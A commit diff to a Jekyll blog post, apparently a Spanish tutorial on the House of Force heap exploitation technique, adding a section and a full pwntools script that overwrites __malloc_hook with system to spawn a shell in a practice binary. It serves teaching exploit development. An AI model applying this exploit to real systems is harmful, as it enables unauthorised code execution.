

Before and after one commit to naibu3/naibu3.github.io, a Jekyll site: the page built from _posts/2025-08-28-House-of-Force.md, in a window 1280 px wide and 1400 px high, scrolled down 6423 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 7053 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
new stuff

````diff
--- a/_posts/2025-08-28-House-of-Force.md
+++ b/_posts/2025-08-28-House-of-Force.md
@@ -247,3 +247,95 @@ malloc(8, "Pwned xd")
 
 io.interactive()
 ```
+
+## Ejecución de comandos
+
+Para lograr ejecución de comandos podemos abusar de una característica muy ligada al heap. Se trata de los *malloc hooks*, es decir un puntero a función en la zona de datos de la libc, que apunta directamente a la función de `malloc` (se utiliza para proporcionar una manera de utilizar una implementación personalizada de malloc).
+
+Si conseguimos que esta dirección apunte a `system` (que está disponible en libc), podremos invocar una shell.
+
+En este caso, deberemos calcular la distancia entre el registro `malloc_hook` y el heap:
+
+```python
+distancia = (libc.sym.__malloc_hook - 0x20) - (heap + 0x20)
+```
+
+Con eso ya tendríamos el top chunk justo antes del registro, de forma que con una llamada a `malloc` podremos sobrescribirlo con la dirección de `system`:
+
+```python
+malloc(24, p64(libc.sym.system))
+```
+
+Para llamar a system bastaría con volver a llamar a `malloc`, pasándole la dirección de un cadena `"/bin/sh\0"`, para conseguir esta dirección, podemos almacenar la cadena en la primera llamada que hicimos a `malloc` y utilizar `heap` como dirección, o usar la siguiente línea:
+
+```python
+malloc(next(libc.search(b"/bin/sh")), "")
+```
+
+El script completo sería:
+
+```python
+#!/usr/bin/python3
+from pwn import *
+
+elf = context.binary = ELF("house_of_force")
+libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again
+
+gs = '''
+continue
+'''
+def start():
+    if args.GDB:
+        return gdb.debug(elf.path, gdbscript=gs)
+    else:
+        return process(elf.path)
+
+# Select the "malloc" option, send size & data.
+def malloc(size, data):
+    io.send(b"1")
+    io.sendafter(b"size: ", f"{size}".encode())
+    io.sendafter(b"data: ", data)
+    io.recvuntil(b"> ")
+
+# Calculate the "wraparound" distance between two addresses.
+def delta(x, y):
+    return (0xffffffffffffffff - x) + y
+
+io = start()
+
+# This binary leaks the address of puts(), use it to resolve the libc load address.
+io.recvuntil(b"puts() @ ")
+libc.address = int(io.recvline(), 16) - libc.sym.puts
+
+# This binary leaks the heap start address.
+io.recvuntil(b"heap @ ")
+heap = int(io.recvline(), 16)
+io.recvuntil(b"> ")
+io.timeout = 0.1
+
+# =============================================================================
+
+# =-=-=- EXAMPLE -=-=-=
+
+# The "heap" variable holds the heap start address.
+info(f"heap: 0x{heap:02x}")
+
+# Program symbols are available via "elf.sym.<symbol name>".
+info(f"target: 0x{elf.sym.target:02x}")
+
+# The malloc() function chooses option 1 from the menu.
+# Its arguments are "size" and "data".
+malloc(24, b"Y"*24+p64(0xffffffffffffffff))
+
+distancia = (libc.sym.__malloc_hook - 0x20) - (heap + 0x20)
+
+malloc(distancia, "A")
+
+malloc(24, p64(libc.sym.system))
+
+malloc(next(libc.search(b"/bin/sh")), "")
+# =============================================================================
+
+io.interactive()
+
+```
````
Also changed, not shown: other parts of _posts/2025-08-28-House-of-Force.md (+1 -1 lines).
